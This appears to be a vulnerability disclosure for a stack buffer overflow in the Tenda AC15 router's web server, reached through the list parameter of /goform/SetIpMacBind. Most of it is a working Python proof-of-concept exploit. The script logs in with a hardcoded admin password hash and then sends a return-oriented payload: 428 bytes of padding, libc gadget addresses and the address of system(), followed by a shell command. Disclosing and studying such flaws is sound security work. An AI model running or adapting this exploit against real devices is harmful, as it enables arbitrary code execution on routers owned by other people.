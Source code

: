 Vendor of the products:　　Tenda 

Reported by: 　　　　　     zhlu32

Affected products:  AC15 V15.03.05.18_multi

#Overview
An issue was discovered on Tenda AC15 V15.03.05.18_multi device. There is a buffer overflow vulnerability in the router’s web server – httpd. While processing the **/goform/SetIpMacBind** list parameter for a post request, the value is directly used in a strcpy to a local variable placed on the stack, which overrides the return address of the function. The attackers can construct a payload to carry out arbitrary code attacks.

#EXP

    import requests
    from urllib import parse
    from pwn import *
    
    main_url = "http://172.16.211.18:20080"
    
    def login_success():
        global password
        url = main_url + "/login/Auth"
        headers = {'Content-Type': 'application/x-www-form-urlencoded; charset=UTF-8'}
        data = {"username": "admin", "password": "ce80adc6ed1ab2b7f2c85b5fdcd8babc"}
        data = parse.urlencode(data)
    
        response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
        password = response.cookies.get_dict().get("password")
        if password is None:
            login_success()
        else:
            print(password)
    
    
    def poc():
        url = main_url + "/goform/SetIpMacBind"
    
        cmd = b'echo yab.....'
        libc_base = 0x40202000
        system_offset = 0x0005a270
        system_addr = libc_base + system_offset
        gadget1 = libc_base + 0x00018298
        gadget2 = libc_base + 0x00040cb8
    
        data = b'bindnum=1&list=' + b'A' * (428) + p32(gadget1) + p32(system_addr) + p32(gadget2) + cmd
        data = data.decode('latin1')
    
        headers = {'Cookie': 'password=' + password}
        response = requests.post(url=url, headers=headers, data=data, allow_redirects=False)
        print(response)
    
    
    if __name__ == "__main__":
        login_success()
        poc()


#Details
##code in httpd
![avatar](img/code.png)
##Attack effect
![avatar](img/effect.png)